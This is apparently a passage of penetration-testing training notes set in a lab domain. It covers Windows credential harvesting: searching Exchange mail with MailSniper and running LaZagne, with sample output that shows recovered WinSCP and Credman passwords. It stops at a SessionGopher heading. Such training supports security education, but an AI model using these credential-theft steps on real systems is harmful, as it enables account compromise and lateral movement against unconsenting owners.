 If we gain access to a domain-joined system in the context of a domain user with a Microsoft Exchange inbox, we can attempt to search the user's email for terms such as "pass," "creds," "credentials," etc. using the tool [MailSniper](https://github.com/dafthack/MailSniper).

***

## **More Fun with Credentials**

### **Running All LaZagne Modules**

hen all else fails, we can run the [LaZagne](https://github.com/AlessandroZ/LaZagne) tool in an attempt to **retrieve credentials from a wide variety of software**. Such software includes **web browsers, chat clients, databases, email, memory dumps, various sysadmin tools, and internal password storage mechanisms (i.e., Autologon, Credman, DPAPI, LSA secrets, etc.**

```powershell
S C:\htb> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

########## User: jordan ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

------------------- Credman passwords -----------------

[+] Password found !!!
URL: dev01.dev.inlanefreight.local
Login: jordan_adm
Password: ! Q A Z z a q 1

[+] 2 passwords have been found.

For more information launch it again with the -v option

elapsed time = 5.50499987602
```

### **Running SessionGopher as Current User**
